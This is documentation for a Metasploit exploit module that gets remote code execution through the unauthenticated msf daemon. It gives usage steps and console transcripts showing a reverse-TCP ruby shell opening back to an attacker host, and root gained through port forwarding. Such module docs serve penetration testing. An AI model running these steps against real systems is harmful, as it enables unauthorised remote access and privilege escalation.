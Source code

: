 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can target remote systems if the daemon is
exposed on a remote interface or it can be used for privilege escalation when
the attacker has a foothold. If used as privilege escalation, port forwarding
must be set up.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04
* Metasploit 4.16.51 on Windows 7

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version)

## Verification Steps

1. Start the vulnerable service: `msfd -f -q -a 0.0.0.0`
2. Start `msfconsole`
3. Do: `use exploit/multi/misc/msfd_rce_remote`
4. Do: `set RHOST [IP]`
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. You should get a shell


## Options

  **RHOST**

  Remote Host

  **RPORT**

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Remote target

  ```
  msf5 > use exploit/multi/misc/msfd_rce_remote
  msf5 exploit(multi/misc/msfd_rce_remote) > set rhost 192.168.56.101
  rhost => 192.168.56.101
  msf5 exploit(multi/misc/msfd_rce_remote) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf5 exploit(multi/misc/msfd_rce_remote) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf5 exploit(multi/misc/msfd_rce_remote) > set lport 443
  lport => 443
  msf5 exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 1 opened (172.17.0.2:443 -> 192.168.0.17:48152) at 2018-04-22 18:43:41 +0000

  whoami
  robin
  ```


### Local target - privilege escalation

  ```
  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > shell
  Process 17366 created.
  Channel 1 created.
  netstat -lntup|grep 55554
  (Not all processes could be identified, non-owned process info
   will not be shown, you would have to be root to see it all.)
  tcp        0      0 127.0.0.1:55554         0.0.0.0:*      LISTEN -
  ps aux | grep msfd
  root     17303  3.3 13.8 535168 283492 pts/18  Sl+  20:47   0:08 ruby ./msfd -f -q
  ^C
  Terminate channel 1? [y/N]  y
  meterpreter > portfwd add -l 55554 -p 55554 -r 127.0.0.1
  [*] Local TCP relay created: :55554 <-> 127.0.0.1:55554
  meterpreter > background
  [*] Backgrounding session 2...
  msf5 > use exploit/multi/misc/msfd_rce_remote
  msf5 exploit(multi/misc/msfd_rce_remote) > set rhost 127.0.0.1
  rhost => 127.0.0.1
  msf5 exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 3 opened (172.17.0.2:443 -> 192.168.0.17:48300) at 2018-04-22 18:55:19 +0000

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

